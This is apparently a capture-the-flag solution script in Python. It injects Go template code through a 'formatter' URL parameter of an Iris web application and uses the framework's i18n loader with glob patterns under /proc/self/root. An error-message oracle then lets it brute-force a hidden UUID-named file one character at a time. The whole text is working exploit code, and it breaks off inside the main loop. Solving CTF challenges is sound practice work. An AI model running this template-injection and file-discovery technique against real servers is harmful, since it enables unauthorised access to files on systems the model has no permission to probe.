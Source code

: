 ```python
import httpx
import urllib

BASE_URL = "http://localhost:1006"
# BASE_URL = "http://nlmlbpltcorlkzamsnmhbiynwigiqcmi.g2.ctf.so"


def is_ok(filename: str) -> bool:
    # E.g. filename == "e9ae21d2-226a-45e7-a039-5???????????-????????-????-????-????-????????????"
    # `?` is used as an arbitrary character in Glob.

    payload = ""
    # https://github.com/kataras/iris/blob/v12.2.0-beta3/context/application.go#L16
    payload += '{{ $app := .Ctx.Application }}'
    # https://github.com/kataras/iris/blob/v12.2.0-beta3/i18n/i18n.go#L131
    # This function uses Glob. You can judge the prefix of the file name using Glob and `/proc/self/root`.
    payload += '{{ $app.I18n.Load "/proc/self/root/{{FILENAME}}" }}'.replace('{{FILENAME}}', filename)

    url = f"{BASE_URL}/start?formatter=" + urllib.parse.quote(payload)

    res = httpx.get(
        url,
        follow_redirects=True,
    )
    # https://github.com/kataras/iris/blob/v12.2.0-beta3/i18n/loader.go#L97
    # If the prefix hits, Iris loads the file as a yaml file and fail it. Then, Iris prints a error message.
    return "line 1: cannot unmarshal" in res.text


N = 64
hyphen_positions = [8, 4, 4, 4, 12, 8, 4, 4, 4, 12]
for i in range(1, len(hyphen_positions)):
    hyphen_positions[i] += hyphen_positions[i-1]
assert hyphen_positions[-1] == N

xs = [None] * N

CHARS = "0123456789abcdef"  # characters of uuid
for i in range(N):
    ys = []
    k = 0
    cur = None
    for j in range(N):
        if j == hyphen_positions[k]:
            ys.append("-")
            k += 1
        if j == i:
            cur = len(ys)
        if j < i:
            ys.append(xs[j])
        else:
            ys.append("?")

    hit_c = None
    for c in CHARS:
        ys[cur] = c
        filename = "".join(ys)

        if is_ok(filename):
            hit_c = c
```